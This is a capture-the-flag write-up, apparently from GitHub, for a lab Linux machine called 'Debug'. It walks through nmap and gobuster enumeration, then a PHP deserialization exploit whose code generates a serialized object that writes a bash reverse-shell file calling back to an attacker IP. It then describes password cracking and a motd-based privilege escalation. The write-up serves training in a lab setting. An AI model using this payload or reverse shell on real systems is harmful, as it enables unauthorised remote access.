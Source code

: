 # Debug : 
##Linux Machine CTF! You'll learn about enumeration, finding hidden password files and how to exploit php deserialization!

```
Hey everybody!

Welcome to this Linux CTF Machine!

The main idea of this room is to make you learn more about php deserialization!

I hope you enjoy your journey :)
```


![04878cdb1624bcc08af74122f6b68a88](https://user-images.githubusercontent.com/58278761/113150929-439daf80-923d-11eb-8d82-ac5ae0fd1b35.jpeg)



As a hint from the Creator, we will be facing a PHP Deserialization.

## Enumeration
                              So Lets start with nmap
							
```bash
# Nmap 7.91 scan initiated Tue Mar 30 23:07:31 2021 as: nmap -sC -sV -vv -o Inital_nmap 10.10.234.104
Nmap scan report for 10.10.234.104
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2021-03-30 23:07:32 EEST for 13s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
|   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 30 23:07:45 2021 -- 1 IP address (1 host up) scanned in 14.22 seconds
```
 
 **We Have 2 Open ports:** 
 * 80 : http
 * 22 : ssh 
 
checking the http we get The Default Apache Page , and there is nothing usefull here; 
lets try to see if there any directories in the site ,



```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.234.104/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/03/30 23:11:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/backup (Status: 301)
/grid (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/javascripts (Status: 301)
/message.txt (Status: 200)
/server-status (Status: 403)
```
 
 
 As we can see there is some intresting files here :
 **index.php - backup - message.txt** 
 
 first lets see what inside the backup ...
 
 
![Screenshot from 2021-03-31 03-13-38](https://user-images.githubusercontent.com/58278761/113151090-6c25a980-923d-11eb-8978-73f04f44db59.png)


 
 it seems that we have a source code for the index.php website,
 by checking the source code we can identify where is the vulnerable code ...
 
 
 
![Pasted image 20210331033918](https://user-images.githubusercontent.com/58278761/113151201-83fd2d80-923d-11eb-836d-e0199f1644d2.png)

 
 
 As we Can see here we have debug parameter that being unserialized ,
 and we have one of the magic method  is the "__destruct()"
 
A very good Resource for PHP Serialization [Here](https://notsosecure.com/remote-code-execution-via-php-unserialize/)
 
the destruct method is Taking $form_file as file name , and $message variable as its value 
and creating a file in the same directory
 
 so we can write a php code to generate a serialized object that will create a php reverse shell file as bellow :
 
 
 ```php
 <?php
class FormSubmit
{
	public $form_file = 'shell.php';
	public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/ATTACKER-IP/1337 0>&1\'");';
}
print urlencode(serialize(new FormSubmit));

?>
```

**payload:**
```bash
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A10%3A%22shell2.php%22%3Bs%3A7%3A%22message%22%3Bs%3A70%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.8.94.192%2F1337+0%3E%261%27%22%29%3B%22%3B%7D
```

as we seen above the destruct method now will create a shell.php with the message as its contents, 

setup a listener and  pass the payload to "debug" parameter then navigate to /shell.php, you should catch a shell !



# User

Manually Checking the html directory we see that we got .htapasswd as the creator 
mentioned (hidden) passwords


![Pasted image 20210331040049](https://user-images.githubusercontent.com/58278761/113151253-924b4980-923d-11eb-924d-8913704b4ddd.png)



* well the password is hashed, we can crack it with john using rockyou


![Pasted image 20210331040832](https://user-images.githubusercontent.com/58278761/113151284-9aa38480-923d-11eb-942b-0901d443f4f7.png)



# Root 


root left a message to james ,, 


![Pasted image 20210331041225](https://user-images.githubusercontent.com/58278761/113151344-a727dd00-923d-11eb-959c-b9342f64c135.png)



so James can modify the welcome message in ssh that located in ```/etc/update-motd.d/00-header```

Here you can see how you can exploit this by adding a reverseshell or by simply adding SUID to /bin/bash like this 



![Pasted image 20210331042420](https://user-images.githubusercontent.com/58278761/113151382-af801800-923d-11eb-83d1-517c83a8ad0c.png)



# voilà

![Pasted image 20210331042824](https://user-images.githubusercontent.com/58278761/113151405-b60e8f80-923d-11eb-973c-e286b516abf3.png)
